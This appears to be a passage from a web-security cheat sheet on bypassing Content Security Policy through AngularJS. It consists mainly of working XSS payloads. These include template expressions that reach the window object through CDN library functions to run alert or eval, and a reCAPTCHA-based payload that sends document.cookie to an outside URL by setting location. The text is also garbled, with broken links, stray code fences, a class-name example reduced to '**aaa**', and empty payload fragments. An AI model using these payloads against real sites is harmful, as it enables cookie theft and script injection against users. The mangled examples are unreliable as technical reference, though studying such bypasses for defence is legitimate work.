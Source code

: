 ```
#### Payloads using Angular + a library with functions that return the `window` object ([[https://blog.huli.tw/2022/09/01/en/angularjs-csp-bypass-cdnjs/)|check out this post]]:

> [!TIP]
> The post shows that you could **load** all **libraries** from `cdn.cloudflare.com` (or any other allowed JS libraries repo), execute all added functions from each library, and check **which functions from which libraries return the `window` object**.

```html

<div ng-app ng-csp>
 {{$on.curry.call().alert(1)}}
 {{[].empty.call().alert([].empty.call().document.domain)}}
 {{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
</div>



<div ng-app ng-csp>
  {{$on.curry.call().alert('xss')}}
</div>



<div ng-app ng-csp>
  {{[].erase.call().alert('xss')}}
</div>
```
```
Angular XSS from a class name:

```html
<div ng-app>
  **aaa**
</div>
```
```
#### Abusing google recaptcha JS code

According to [[https://blog-huli-tw.translate.goog/2023/07/28/google-zer0pts-imaginary-ctf-2023-writeup/?_x_tr_sl=es&_x_tr_tl=en&_x_tr_hl=es&_x_tr_pto=wapp#noteninja-3-solves) you can abuse [https://www.google.com/recaptcha/](https://www.google.com/recaptcha/|**this CTF writeup**]] inside a CSP to execute arbitrary JS code bypassing the CSP:

```html
<div
  ng-controller="CarouselController as c"
  ng-init="c.init()"
>
&#91[c.element.ownerDocument.defaultView.parent.location="http://google.com?"+c.element.ownerDocument.cookie]]
</div>

```
```
More [[https://joaxcar.com/blog/2024/02/19/csp-bypass-on-portswigger-net-using-google-script-resources/|**payloads from this writeup**]]:

```html

<!-- Trigger alert -->
![[x|]]

<!-- Reuse nonce -->
![[x|]]
```